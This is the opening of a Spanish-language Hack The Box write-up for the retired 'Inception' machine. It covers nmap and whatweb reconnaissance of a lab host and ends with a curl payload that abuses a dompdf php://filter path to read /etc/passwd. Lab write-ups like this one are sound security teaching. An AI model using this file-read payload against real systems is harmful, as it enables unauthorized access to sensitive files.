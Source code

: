 ```yaml
---
layout: post
title:  "Maquina Retirada Inception de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada INCEPTION
tags: HTB, dompdf, Remote File Read, squidproxy, webdav, CronTabs, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Inception ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
# nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv 10.10.10.67
```
Realizamos el segundo escaneo para averiguar la version y servicios en los puerto abiertos
```bash
# nmap -sC -sV -p80,3128 -Pn -n -v 10.10.10.67

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inception
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
```

Procedemos a enumerar el servicio `http` con la herramienta `whatweb`
```bash
# whatweb http://10.10.10.67                                                                                                                                                     
http://10.10.10.67 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.67], Script, Title[Inception]
```
Procedemos a hechar un ojo a la pagina web y al codigo fuente de la misma.
```bash
curl -s -X GET "http://10.10.10.67/"
<!-- Todo: test dompdf on php 7.x -->
```
Encontramos al final de codigo fuente algo sobre `DOMPDF`
Investigamos a nivel google que es DOMPDF:   `DOMPDF es un conversor de HTML a PDF escrito en PHP`
Buscamos Exploits Github para DOMPDF:   Encontramos este exploit de Arbitrary File Read en github-- `https://github.com/defarbs/dompdf-exploit`
```bash
curl -s -X GET "10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd"
```
